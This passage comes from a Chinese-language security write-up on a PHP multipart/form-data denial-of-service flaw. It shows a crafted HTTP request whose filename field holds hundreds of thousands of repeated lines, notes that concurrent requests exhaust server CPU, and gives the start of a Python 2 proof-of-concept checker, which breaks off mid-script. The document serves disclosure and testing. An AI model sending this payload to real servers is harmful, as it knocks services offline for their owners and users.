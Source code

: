 0x04 利用
=====

构造像以下恶意的http请求，当存在350000行`a\n`时，在我的测试环境中，一个http请求将消耗10s的cpu时间。每隔若干秒，同时并发多个请求，将导致server端cpu资源长期耗尽，从而到达DOS。总的来说，利用方式和Hash Collision DOS一样。

```
------WebKitFormBoundarypE33TmSNWwsMphqz
Content-Disposition:form-data; name="file"; filename="s
a
a
a
…
…
…
a"
Content-Type:application/octet-stream

why is it?
------WebKitFormBoundarypE33TmSNWwsMphqz

```

0x05 POC
=====

```
'''
Author: Shusheng Liu,The Department of Security Cloud, Baidu
email: liusscs@163.com
'''
import sys
import urllib,urllib2
import datetime
from optparse import OptionParser

def http_proxy(proxy_url):

    proxy_handler = urllib2.ProxyHandler({"http" : proxy_url})
    null_proxy_handler = urllib2.ProxyHandler({})
    opener = urllib2.build_opener(proxy_handler)
    urllib2.install_opener(opener)
#end http_proxy 

def check_php_multipartform_dos(url,post_body,headers):
    req = urllib2.Request(url)
    for key in headers.keys():
        req.add_header(key,headers[key])
    starttime = datetime.datetime.now();
    fd = urllib2.urlopen(req,post_body)
    html = fd.read()
    endtime = datetime.datetime.now()
    usetime=(endtime - starttime).seconds
    if(usetime > 5):
        result = url+" is vulnerable";
    else:
        if(usetime > 3):
            result = "need to check normal respond time"
    return [result,usetime]
#end


def main():
    #http_proxy("http://127.0.0.1:8089")
    parser = OptionParser()
    parser.add_option("-t", "--target", action="store", 
```